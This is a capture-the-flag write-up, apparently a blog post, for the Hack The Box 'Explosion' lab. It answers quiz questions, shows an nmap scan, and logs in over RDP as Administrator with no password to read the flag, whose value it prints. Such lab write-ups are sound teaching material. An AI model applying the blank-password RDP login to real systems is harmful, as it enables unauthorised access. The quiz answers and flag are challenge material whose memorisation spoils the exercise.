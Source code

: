 ```yaml
---
layout: post
title: "Explosion"
date: 2022-05-12
image: ../../assets/img/Posts/explosion.png
categories: [HTB, Starting Point, Tier 0]
tags: [windows, xfreerdp, rdp]
---
```


#### What does the 3-letter acronym RDP stand for?

`Remote Desktop Protocol`

#### What is a 3-letter acronym that refers to interaction with the host through a command line interface?

`CLI`

#### What about graphical user interface interactions?

`GUI`

#### What is the name of an old remote access tool that came without encryption by default?

`Telnet`

#### What is the concept used to verify the identity of the remote host with SSH connections?

`Public-Key cryptography`

#### What is the name of the tool that we can use to initiate a desktop projection to our host using the terminal?

`xfreerdp`

#### What is the name of the service running on port 3389 TCP?

```bash
➜  nmap -sC -sV -p- -Pn -T4 10.129.154.204
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-22 09:09 EST
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 10.129.154.204 (10.129.154.204)
Host is up (0.24s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2021-12-22T14:26:19+00:00
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2021-09-20T16:22:34
|_Not valid after:  2022-03-22T16:22:34
|_ssl-date: 2021-12-22T14:26:31+00:00; +3s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-12-22T14:26:21
|_  start_date: N/A
|_clock-skew: mean: 2s, deviation: 0s, median: 2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1048.58 seconds
```

`ms-wbt-server`

#### What is the switch used to specify the target host's IP address when using xfreerdp?

```bash
➜  xfreerdp -h

FreeRDP - A Free Remote Desktop Protocol Implementation
See www.freerdp.com for more information

Usage: xfreerdp [file] [options] [/v:<server>[:port]]

```

`/v:`

#### Submit root flag

Logging in as an Administrator without specifying the password, we can get the flag on the desktop as shown below.

```bash
➜  xfreerdp /v:10.129.154.204 /cert:ignore /u:Administrator
[09:34:40:835] [2284:2285] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[09:34:40:835] [2284:2285] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[09:34:40:835] [2284:2285] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[09:34:40:835] [2284:2285] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
[09:34:40:204] [2284:2285] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized
[09:34:40:231] [2284:2285] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[09:34:40:231] [2284:2285] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state
Password:
[09:34:57:717] [2284:2285] [INFO][com.winpr.sspi.NTLM] - VERSION ={
[09:34:57:717] [2284:2285] [INFO][com.winpr.sspi.NTLM] -        ProductMajorVersion: 6
[09:34:57:717] [2284:2285] [INFO][com.winpr.sspi.NTLM] -        ProductMinorVersion: 1
[09:34:57:717] [2284:2285] [INFO][com.winpr.sspi.NTLM] -        ProductBuild: 7601
[09:34:57:717] [2284:2285] [INFO][com.winpr.sspi.NTLM] -        Reserved: 0x000000
[09:34:57:718] [2284:2285] [INFO][com.winpr.sspi.NTLM] -        NTLMRevisionCurrent: 0x0F
...snip...
```

![image](https://user-images.githubusercontent.com/58165365/147109143-24a61df9-77ca-4def-8f6c-9931fe8d8172.png)

`HTB{951fa96d7830c451b536be5a6be008a0}`
